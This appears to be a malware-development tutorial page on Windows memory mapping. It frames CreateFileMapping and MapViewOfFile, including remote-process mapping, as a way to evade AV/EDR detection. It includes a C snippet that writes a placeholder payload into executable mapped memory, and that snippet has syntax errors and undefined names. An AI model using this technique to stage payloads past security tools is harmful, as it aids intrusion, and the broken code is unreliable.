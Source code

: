 ```yaml
---
description: >-
  Using private memory allocation functions are heavily monitored by AV/EDR.
  Using mapped memory can help circumvent detection.
---
```


# Memory Mapping



***

## CreateFileMapping

[CreateFileMapping](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfilemappinga) allows a process to create a virtual memory space that maps to the contents of a file on disk or to another memory location. The function returns a handle to the file mapping object.

```c
HANDLE CreateFileMappingA(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,     // Not Required - NULL
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,           // Not Required - NULL
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCSTR                lpName                       // Not Required - NULL   
);
```

`hFile` - A handle to a file from which to create a file mapping handle.

`flProtect` - Specifies the page protection of the file mapping object. (`PAGE_EXECUTE_READWRITE)`

`dwMaximumSizeLow` - The size of the file mapping handle returned. (Size of payload)

## M**apViewOfFile**

[MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile) maps a view of a file mapping object into the address space of a process.&#x20;

```c
LPVOID MapViewOfFile(
  [in] HANDLE     hFileMappingObject,
  [in] DWORD      dwDesiredAccess,
  [in] DWORD      dwFileOffsetHigh,           // Not Required - NULL
  [in] DWORD      dwFileOffsetLow,            // Not Required - NULL
  [in] SIZE_T     dwNumberOfBytesToMap
);
```

* `hFileMappingObject` - The returned handle from the `CreateFileMapping` WinAPI, which is the file mapping object.
* `dwDesiredAccess` - The type of access to a file mapping object, which determines the page protection of the page created. Should correspond w/ the flProtect attributes in CreateFileMapping.
* `dwNumberOfBytesToMap` - The size of the payload.

<pre class="language-c"><code class="lang-c"><strong>#include &#x3C;stdio.h>
</strong><strong>#include &#x3C;wchar.h>
</strong><strong>#include &#x3C;windows.h>
</strong><strong>
</strong><strong>
</strong><strong>const char pPaylaod[] = [0x00 0x01 0x02 0x03 0x04]
</strong><strong>
</strong><strong>int wmain() {
</strong><strong>	BOOL   bSTATE         = TRUE;
</strong>	HANDLE hFile          = NULL;
	PVOID  pMapAddress    = NULL;


	// Create a file mapping handle with RWX memory permissions
	// This does not allocate RWX view of file unless it is specified in the subsequent MapViewOfFile call  
	hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// Maps the view of the payload to the memory 
	pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sPayloadSize);
	if (pMapAddress == NULL) {
		printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	
    // Copying the payload to the mapped memory
	memcpy(pMapAddress, pPayload, sPayloadSize);
}
</code></pre>

_**To Map Memory in Remote Process We can use the following:**_

## MapViewOfFile2

[MapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) is used to map memory in a remote process.

```c
PVOID MapViewOfFile2(
  [in]           HANDLE  FileMappingHandle,
  [in]           HANDLE  ProcessHandle,
  [in]           ULONG64 Offset,
  [in, optional] PVOID   BaseAddress,
  [in]           SIZE_T  ViewSize,
  [in]           ULONG   AllocationType,
  [in]           ULONG   PageProtection
);
```

## MapViewOfFile3

[MapViewOfFile3](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile3) is used to map memory in a remote process.

```c
PVOID MapViewOfFile3(
  [in]                HANDLE                 FileMapping,
  [in]                HANDLE                 Process,
  [in, optional]      PVOID                  BaseAddress,
  [in]                ULONG64                Offset,
  [in]                SIZE_T                 ViewSize,
  [in]                ULONG                  AllocationType,
  [in]                ULONG                  PageProtection,
  [in, out, optional] MEM_EXTENDED_PARAMETER *ExtendedParameters,
  [in]                ULONG                  ParameterCount
);
```

## UnmapViewOfFile

[UnmapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-unmapviewoffile) is used to unmap previously mapped memory. This should be called on cleanup.

## UnmapViewOfFileEx

This is an extended version of [UnmapViewOfFile](https://learn.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-unmapviewoffile) that takes an additional flags parameter.

## UnmapViewOfFile2

[UnmapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) Unmaps a previously mapped view of a file or a pagefile-backed section.
